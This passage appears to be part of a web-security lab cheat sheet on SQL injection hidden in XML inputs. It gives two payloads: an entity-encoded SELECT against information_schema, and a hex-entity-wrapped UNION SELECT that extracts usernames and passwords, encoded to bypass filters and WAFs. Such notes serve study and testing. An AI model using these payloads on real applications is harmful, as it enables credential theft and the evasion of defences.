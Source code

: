 #### SQL Injection with filter bypass via XML encoding

* Example:  SQL injection vectors can exist in other areas of the application such as JSON or XML inputs.  This can allows us to obfuscate the payloads in different ways to bypass filters.

```
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

* Example:  Use the Hackvertor extension from Burp to help encode the payload and bypass any WAF.

* Hackvertor -> Encode -> hex_entities

```
<storeId>
<@hex_entities>
1 UNION SELECT username || '~' || password FROM users
<@/hex_entities>
</storeId>
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.
